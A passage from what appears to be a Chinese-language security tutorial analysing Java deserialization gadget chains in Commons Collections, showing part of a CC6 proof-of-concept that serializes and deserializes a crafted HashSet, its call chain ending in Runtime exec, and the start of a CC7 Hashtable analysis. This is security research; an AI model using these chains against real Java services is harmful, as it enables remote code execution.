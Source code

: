 ```java
        Field field = ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(Testtransformer, transformers);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc6"));
            outputStream.writeObject(hashSet);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc6"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```
![](https://img-blog.csdnimg.cn/cb17df796864496f877ed732b27b3d52.png)


需要`lazyMap.remove`方法移除前面填入的`KEY`才能够进行到该if判断语句里面去执行`transform`方法，否则就直接走的是else的方法体内容了

调用链：
```
HashSet.readObject()
  HashMap.put()
  HashMap.hash()
    TiedMapEntry.hashCode()
    TiedMapEntry.getValue()
      LazyMap.get()
         ChainedTransformer.transform()
          ConstantTransformer.transform() // 获取Runtime.class
          InvokerTransformer.transform()   // 获取Runtime.getRuntime
          InvokerTransformer.transform()   // 获取Runtime实例
          InvokerTransformer.transform()   // 调用exec方法触发rce
```

参考：[Java安全之Commons Collections6分析](https://www.cnblogs.com/nice0e3/p/13892510.html)

## CommonsCollections7
CC7 依旧是寻找 LazyMap 的触发点，这次用到了 Hashtable
>测试环境：
JDK 1.7/JDK 1.8
Commons Collections 3.1

### 前置知识
#### Hashtable
Hashtable 的 readObject 方法中，最后调用了`reconstitutionPut`方法将反序列化得到的 key-value 放在内部实现的 Entry 数组 table 里，`elements`为传入的元素个数
![](https://img-blog.csdnimg.cn/b9690c332deb417183c9c0504ef8ac39.png)
`reconstitutionPut`调用了 key 的 hashCode 方法
![](https://img-blog.csdnimg.cn/9727c1f058d94f7ba6de493069ba8a6e.png)
for循环中调用了`equals`，我们先看看进入for循环的条件：`e != null`，而`e = tab[index]`，此时`tab[index]`的值是为null的，所以不会进入for循环
如何才能进入for循环呢，既然调用一次`reconstitutionPut`不行，那我们就调用两次，也就是说put两个元素进`Hashtable`对象，这样`elements`的值就为2，readObject中的for循环就可以循环两次，第一次循环已经将第一组key和value传入到tab中了，当第二次到达`reconstitutionPut`中的for循环的时候，`tab[index]`中已经有了第一次调用时传入的值，所以不为null，可以进入for循环
